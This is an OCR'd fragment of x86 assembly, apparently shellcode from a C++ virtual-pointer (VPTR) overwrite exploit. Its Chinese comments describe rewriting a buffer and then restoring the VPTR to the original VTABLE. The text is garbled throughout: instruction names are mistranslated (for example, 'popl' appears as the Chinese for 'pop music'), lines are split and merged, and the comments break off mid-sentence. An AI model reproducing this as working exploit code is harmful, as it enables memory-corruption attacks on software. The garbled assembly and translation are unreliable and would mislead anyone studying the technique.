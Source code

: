 xorb%al,%al

\$0x804a960,%edi

移动 \$0x8049730,%eax

movl %eax,%ebx stosl

%eax,%es:(%edi)

移动 \$0x29,%al

stosb%al,%es: (%edi) movl

0xc (%ebx),%eax

流行音乐

popl%ebx

popl% ecx

popl%edx

popl%esi

\*%eax

// ESI = \$ BufferAddress + \$ NewBufferOffset

// (指向我们想要的新字符串

//在缓冲区中重写）

//EDI=\$BufferAddress （指向

//我们缓冲区的开始）

// ECX = 0

//ECX=\$NewBufferSize(长度

//新字符串）

//复制新字符串到

//我们缓冲区的开始

//AL=0

// EDI = \$ BufferAddress + \$ VPTROffset

// (VPTR的地址)

//EAX=\$VTABLEAddress (地址

//我们类的原始 VTABLE)

//EBX=\$VTABLE地址

//纠正VPTR指向

// 原始 VTABLE

//AL=\$LastByte （后面的字节
